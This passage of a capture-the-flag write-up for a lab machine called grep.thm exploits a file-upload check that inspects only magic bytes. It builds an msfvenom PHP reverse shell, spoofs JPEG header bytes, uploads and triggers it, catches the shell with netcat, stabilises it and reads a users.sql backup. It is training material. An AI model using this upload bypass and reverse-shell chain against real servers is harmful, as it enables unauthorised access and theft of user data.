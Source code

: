 ```php
    }
} else {
    echo json_encode(['error' => 'Unsupported request method.']);
}
?>
```

At first glance it seems like the code is checking both the file extension AND the magic bytes. However, it does, in fact only check to see if the magic bytes of the file being uploaded are allowed. `$allowedExtensions` is defined but never used! This means we should be able to upload the file with a `.php` extension, only modifying the magic bytes.

1. Creaft the reverse shell using ***msfvenom*** with the following command:
```bash
msfvenom -p php/reverse_php LHOST=<YOUR IP HERE> LPORT=4444 -o revshell.php
```
2. Add 4 A's (or any character really) to the beginning of the file
3. Edit the file with ***hexeditor*** and change the values of the 4 first hexadecimal values to *"FF D8 FF E0"* (or to any other of the allowed values)

Now let's try our new file on the upload page. In our ***ffuf*** scan we found a file called `upload.php` and the upload page is accessible to us at `https://grep.thm/public/html/upload.php`. Let's see what happens!

Ah, yes! We get a beautiful `{"message":"File uploaded successfully."}` message in our browser. Now we just need to navigate over to `https://grep.thm/api/uploads/` and activate the file from there.

Set up a listener:
```bash
nc -lvnp 4444
```

There is our reverse shell!

Before doing anything else, let's stabilise this netcat shell.

Once you have the reverse shell, do the following:
1. Run:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
2. Then:
```bash
export TERM=xterm
```
3. Then background the netcat shell by hitting **CTRL+Z**.
4. Then turn off your own terminal echo and foreground the netcat shell with:
```bash
stty raw -echo; fg
```

Now let's find that admin email!

Looking through the contents of the `/var/www` directory, there sure are many interesting files we cannot access as `www-data`, but one that we can access is `/var/www/backup/users.sql`.

Running `cat users.sql` reveals the admin's email address.
